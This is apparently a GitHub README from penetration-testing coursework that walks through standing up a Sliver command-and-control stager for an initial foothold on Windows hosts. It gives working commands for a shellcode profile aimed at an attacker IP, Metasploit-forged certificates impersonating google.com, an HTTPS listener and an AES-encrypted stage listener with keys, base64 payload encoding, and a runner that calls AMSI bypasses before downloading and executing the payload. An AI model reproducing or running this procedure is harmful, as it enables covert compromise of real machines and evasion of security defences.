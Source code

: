 # Overview

## References
Process Hollowing was taken from https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8
This technique has been my main go-to for initial foothold onto a windows box that for the most part just works. 
Huge thanks to Ycf-Kel

# Sliver Setup
## Create profile local64 and point to port 443
`sliver > profiles new --http 192.168.45.227:443 --format shellcode local64`

## Setup certs with metasploit
`msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"`
Then save the .crt and .key files into an appropriate folder for easy reference

## Setup main listener with google.crt / key generated with metasploit
`sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key`

## Setup the main stager with unzip key / decryption keys 
`sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV`

# Sliver Payload
The sliverloader.cs when compiled will generate a SliverLoader-x64.bin file which will require encoding into base 64

`PS C:\directory2sliver> get-content -encoding byte -path .\SliverLoader-x64.dll | clip`

use the simple powershellencoder.ps1 script to automate or simply paste into cyberchef 'To Base64' to encode, just need to modify the path 

`PS C:\directory2sliver> .\powershellEncoder.ps1`

## Add the encoded payload to a shellcode runner labeled sliver.txt (or .ps1 depending on need to obfuscate)
sliver.ps1 is the shellcode runner, should be used in conjunction with runner.ps1

## runner.ps1 or .txt is a quick and dirty multi script runner
The script runner will call 2 amsi bypasses, pass the current OS architecture and context user runner.txt is running in then finally pull and run the sliver.ps1. 
